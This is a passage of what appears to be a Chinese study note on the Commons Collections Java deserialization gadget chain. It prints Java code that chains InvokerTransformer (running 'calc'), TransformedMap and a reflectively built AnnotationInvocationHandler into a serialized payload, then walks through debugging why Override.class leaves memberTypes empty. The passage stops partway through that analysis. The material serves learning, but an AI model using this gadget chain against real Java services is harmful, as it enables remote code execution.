 ```java
        Map<Object, Object> expMap = new HashMap<>();  
        expMap.put("test", "test");  
        InvokerTransformer expTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
        Map<Object, Object> transformedMap = TransformedMap.decorate(expMap, null, expTransformer);  
  
//        Map.Entry<Object, Object> entry = transformedMap.entrySet().iterator().next();  
//        entry.setValue(runtime);  
        Class expClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        Constructor<?> expClassConstructor = expClass.getDeclaredConstructor(Class.class, Map.class);  
        expClassConstructor.setAccessible(true);  
        Object expO = expClassConstructor.newInstance(Override.class, transformedMap);  
		  serialize(expO);  
			unserialize();
  
  
//        Class<?> clazz = transformedMap.getClass();  
//        Method checkSetValueMethod = clazz.getDeclaredMethod("checkSetValue", Object.class);  
//        checkSetValueMethod.setAccessible(true);  
//        checkSetValueMethod.invoke(transformedMap, runtime);  
    }  
    public  static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        oos.writeObject(obj);  
  
    }  
    public static Object unserialize() throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("ser.bin"));  
        Object obj = ois.readObject();  
        return obj;  
    }  
}
```
这里是采用反射构造AnnotationInvocationHandler类并且调用对应的构造方法，再实例化类对象，最后采用反序列化调用其readObject()方法

![[Pasted image 20250531001019.png]]
然后这里断点调试就可以发现第一处调用时，memberType的值为空
![[Pasted image 20250531002825.png]]
而memberType实际上按照memberTypes这个map对象的键去取值，而name变量则为传入的transformedMap的键
```java
Class<?> memberType = memberTypes.get(name);
```
而memberTypes是传入的参数注解类型的 Class 对象的所有成员方法以及其返回类型作为键值对map，这里传入的是Override.class,而此注解无成员方法，因此memberTypes为空值
```java
AnnotationInvocationHandler.java
Map<String, Class<?>> memberTypes = annotationType.memberTypes();

main.java
Object expO = expClassConstructor.newInstance(Override.class, transformedMap);
```
![[Pasted image 20250531003940.png]]
这里发现override注解中还有注解，点击查看第一个注解@Target发现其中有对应的成员方法
```java
/*  
 * Copyright (c) 2003, 2013, Oracle and/or its affiliates. All rights reserved. * ORACLE PROPRIETARY/CONFIDENTIAL. Use is subject to license terms. * * * * * * * * * * * * * * * * * * * * */  
package java.lang.annotation;  
  

@Retention(RetentionPolicy.RUNTIME)  
```
